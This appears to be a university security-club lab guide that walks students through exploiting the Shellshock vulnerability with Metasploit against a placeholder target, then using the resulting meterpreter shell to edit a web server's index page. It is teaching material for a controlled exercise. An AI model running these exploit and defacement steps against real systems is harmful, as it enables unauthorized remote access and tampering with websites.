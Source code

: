 # RITSEC Academic Day - ShellShock 

## Setup
- Open 'VMWare Workstation Pro'
- Click on 'Kali Linux 2021' on the left side list of VMs
- Right click again on 'Kali Linux 2021' and click 'Settings'. 
![settings](settings.PNG)
    - Select 'Network Adapter' and change it to 'Bridged'
    ![bridge](bridge.PNG)
- Hit the Play Button to start the VM.
    - Username: kali
    - Password: kali

## Viewing the Website
- Click the top left logo to search for firefox.
- Open your browser and head to http://<TARGET_IP>:8080

## Attacking the Box - Commands To Run
- Click the Black Box with the "$_" to open the terminal.
![terminal](terminal.PNG)

This will open the Metasploit Console.
1. `msfconsole`

![landing](landing.PNG)

Here, you are searching for the shellshock vulnerability to use.

2. `search shellshock`

![search](search.PNG)

This is selecting the shellshock exploit.

3. `use 1`

![use1](use1.PNG)

This is seeing the module and payload options that will be configured.

4. `options`

![options](options.PNG)

Setting the vulnerable cgi page to utilize.

5. `set targeturi /cgi-bin/vulnerable`

![targeturi](targeturi.PNG)

Setting the target hosting the site that we will attack.

6. `set rhosts <TARGET_IP>`

Setting the port the website is being hosted on.

7. `set rport 8080`

![rport](rport.PNG)

Attack the box!

7. `exploit`

![exploit](exploit.PNG)

## Modifying the Website

With your meterpreter shell, now you can modify the website. 

Most websites by default keep their files in `/var/www`. In our case, the `index.html` file contains the main page of the website. 

Use the `edit /var/www/index.html` command to edit the file. Add your name to the website!

![edit](edit.PNG)


- Once you are in the text editor, press the 'i' key to go into insert mode.
- Use the arrow keys to move down to the < li > section
- Once you add your name, hit the 'ESC' key, type ':wq' and hit 'Enter'

![nameadd](nameadd.PNG)

Now visit the website in your browser and see your name publicly hosted on the target site!!
